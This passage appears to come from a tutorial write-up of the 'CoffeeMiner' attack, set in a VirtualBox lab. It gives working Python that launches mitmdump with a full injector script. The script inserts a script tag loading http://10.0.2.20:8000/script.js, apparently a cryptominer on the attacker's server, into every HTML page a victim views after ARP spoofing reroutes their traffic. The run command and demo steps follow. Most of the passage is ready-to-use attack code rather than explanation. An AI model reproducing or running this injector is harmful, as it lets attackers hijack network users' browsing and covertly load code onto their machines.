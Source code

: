 ```python
os.system("xterm -hold -e 'python3 httpServer.py' &")

# start the mitmproxy
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
And also in the 'injector.py' script:

```python
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse

class Injector:
    def __init__(self, path):
        self.path = path

    def response(self, flow: http.HTTPFlow) -> None:
        if self.path:
            html = BeautifulSoup(flow.response.content, "html.parser")
            print(self.path)
            print(flow.response.headers["content-type"])
            if flow.response.headers["content-type"] == 'text/html':
                print(flow.response.headers["content-type"])
                script = html.new_tag(
                    "script",
                    src=self.path,
                    type='application/javascript')
                html.body.insert(0, script)
                flow.response.content = str(html).encode("utf8")
                print("Script injected.")

def start():
    parser = argparse.ArgumentParser()
    parser.add_argument("path", type=str)
    args = parser.parse_args()
    return Injector(args.path)
```

And to execute, we just need to do:

```bash
> python3 coffeeMiner.py RouterIP
```

## 4. Demo
In order to do the demo, we set up the VirtualBox scenario explained above.

If we want to perform the attack manually, we will need the following terminals:

![demo](img/posts/coffeeMiner/demo01.png "demo")

Then, once the ARPspoofing attack is done and the injector and the HTTP Server are ready, we can go to the victim's machine and browse to a website. The victim's traffic will go through the attacker machine, and will activate the injector:
